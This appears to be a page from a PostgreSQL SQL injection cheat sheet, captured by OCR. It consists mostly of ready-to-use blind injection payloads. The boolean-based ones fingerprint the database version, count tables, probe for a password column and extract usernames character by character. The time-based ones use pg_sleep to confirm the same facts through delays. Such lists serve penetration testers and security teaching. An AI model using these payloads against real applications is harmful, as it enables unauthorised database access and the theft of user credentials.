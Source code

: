 ### Boolean-Based SQLi

- **Checking PostgreSQL Version:** Evaluates to true if the PostgreSQL version starts with '9'.

```
' AND SUBSTRING(version(), 1, 1) = '9' -- -
```

- **Determining the Number of Tables:** Evaluates to true if there are more than 10 tables in the `public` schema.

```
' AND (SELECT COUNT(*) FROM pg_tables WHERE schemaname = 'public') > 10 -- -
```

- **Checking Existence of a Column:** Evaluates to true if the `password` column exists in the `users` table.

```
' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users' AND column_name='password') > 0 -- -
```

- **Extracting Data from a Column:** Evaluates to true if the first character of the first username in the `users` table is 'a'.

```
' AND (SELECT SUBSTRING(username, 1, 1) FROM users LIMIT 1) = 'a' -- -
```

### Time-Based SQLi

- **Basic Time Delay Test:** Causes the PostgreSQL database to sleep for 5 seconds. If the response is delayed, the injection point is likely vulnerable.

```
' OR pg_sleep(5) -- -
```

- **Conditional Time Delay:** Causes a 5-second delay if the condition `1=1` is true.

```
' OR (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END) -- -
```

- **Checking PostgreSQL Version:** Causes a 5-second delay if the PostgreSQL version starts with '9'.

```
' OR (SELECT CASE WHEN (SUBSTRING(version(), 1, 1) = '9') THEN pg_sleep(5) ELSE pg_sleep(0) END) -- -
```

- **Checking Existence of a Table:** Causes a 5-second delay if the `users` table exists in the `public` schema.

```
' OR (SELECT CASE WHEN (EXISTS (SELECT 1 FROM pg_tables WHERE schemaname = 'public' AND tablename = 'users')) THEN pg_sleep(5) ELSE pg_sleep(0) END) -- -
```
